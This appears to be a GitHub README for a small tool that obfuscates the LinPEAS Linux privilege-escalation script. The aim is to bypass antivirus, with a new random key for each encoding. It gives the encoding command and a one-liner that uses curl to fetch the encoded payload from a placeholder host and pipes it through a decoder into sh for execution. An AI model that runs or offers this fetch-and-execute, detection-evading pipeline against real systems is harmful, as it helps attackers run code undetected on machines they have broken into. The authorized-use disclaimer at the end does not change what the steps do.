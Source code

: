 # obfuscated_linpeas
Just a quick setup to bypass most AV with LinPEAS
___
Run:
```bash
python3 encode.py linpeash.sh > encoded.txt
```
Fetch the generated password from the `encoded.txt` file (e.g. : `# Key: 3Wr9QKXC`)

Host `encoded.txt` and `decode.sh` and just use the decode usage command (e.g.: `curl http://your_host/encoded.txt | bash decode.sh -p 3Wr9QKXC | sh`)

Each encoding uses a new random key, unique signature every time.

Minimal Bash/Perl decoder to avoid detection.

Works over HTTP, supports stdin piping.
___
This tool is intended for educational and authorized security testing purposes only.
Unauthorized use of obfuscation techniques like this to bypass detection or execute payloads on systems without explicit permission is illegal and unethical.
